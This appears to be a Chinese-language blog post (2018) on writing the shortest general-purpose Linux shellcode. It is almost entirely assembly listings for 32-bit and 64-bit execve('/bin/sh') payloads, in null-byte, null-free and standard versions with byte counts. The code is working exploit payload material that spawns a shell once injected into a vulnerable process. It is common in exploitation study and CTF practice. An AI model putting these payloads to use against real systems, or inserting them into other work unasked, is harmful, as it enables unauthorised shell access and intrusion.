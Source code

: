 ```yaml
---
layout:     post
title:      "Linux ShellCode"
subtitle:   "最短的通用shellcode编写"
date:       2018-11-16 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
    - ShellCode
    - Linux
 
---
```


在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte

	shellcode= """
	xor ecx,ecx
	mul ecx
	mov al,0xb
	push 0x68732f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80
	"""
    shellcode=asm(shellcode)

无"\x00"最短 21 byte


	xor ecx,ecx
	mul ecx
	push eax
	mov al,0xb
	push 0x68732f2f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80


标准shellcode 23 byte

	xor ecx,ecx
	xor edx,edx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	xor eax,eax
	mov al,0xB
	int 0x80

## 64位


最短有"\x00" 22 byte

	xor rsi,rsi
	mul esi
	mov rbx,0x68732f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

最短无"\x00" 23 byte

	xor rsi,rsi
	mul esi
	push rax
	mov rbx,0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

标准shellcode 31 byte

	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    rax,rax
	push   rax
	movabs rbx,0x68732f2f6e69622f
	push   rbx
	mov    rdi,rsp
	mov    al,0x3b
	syscall 